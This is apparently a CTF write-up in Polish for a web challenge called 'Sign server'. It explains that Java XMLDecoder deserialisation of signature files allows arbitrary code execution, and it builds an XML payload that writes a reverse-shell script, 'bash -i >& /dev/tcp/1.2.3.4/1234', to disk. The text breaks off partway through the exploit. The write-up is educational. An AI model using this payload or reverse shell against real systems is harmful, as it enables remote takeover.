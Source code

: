 ﻿## Sign server (Web, 100p)

	Document signature is so hot right now! 
	SignServer provides you with the most advanced solution to sign and verify your documents. 
	We support any document types and provide you with a unique, ultra-secure signature.

### PL
[ENG](#eng-version)

W zadaniu dostępna jest strona, która generuje podpis dla wybranego przez nas pliku, oraz pozwala na weryfikacje takiego podpisu.
Istotny fakt jest taki, że pliki z podpisem wyglądają tak:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java version="1.8.0_72-internal" class="java.beans.XMLDecoder">
 <object class="models.CTFSignature" id="CTFSignature0">
  <void class="models.CTFSignature" method="getField">
   <string>hash</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>da39a3ee5e6b4b0d3255bfef95601890afd80709</string>
   </void>
  </void>
  <void class="models.CTFSignature" method="getField">
   <string>sig</string>
   <void method="set">
    <object idref="CTFSignature0"/>
    <string>12a626d7c85bcc21d9f35302e33914104d8329a0</string>
   </void>
  </void>
 </object>
</java>
```

Można więc zauważyć, że serialiazcja obiektu z podpisem, oraz zapewne deserializacja wykorzystaują klasy XMLEncoder i XMLDecoder.
Występuje tu podatność podobna do Pythonowego Pickle - deserializacja jest w stanie wykonywać praktycznie dowolny kod, o ile plik zostanie odpowiednio przygotowany.

Możemy na przykład utworzyć dowolny obiekt używając tagu `<object>` a następnie podając parametry konstruktora, na przykład:

```xml
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
</object>
```
Wykona `new PrintWriter("reverse.sh");`

Możemy też wykonywać dowolne metody na takim obiekcie za pomocą tagów `<method>` oraz `<void>` i tak na przykład:

```xml
<object class = "java.io.PrintWriter">
	<string>reverse.sh</string>
	<method name = "write">
		<string>bash -i >& /dev/tcp/1.2.3.4/1234 0>&1</string>
	</method>
	<method name = "close"/>
</object>
```
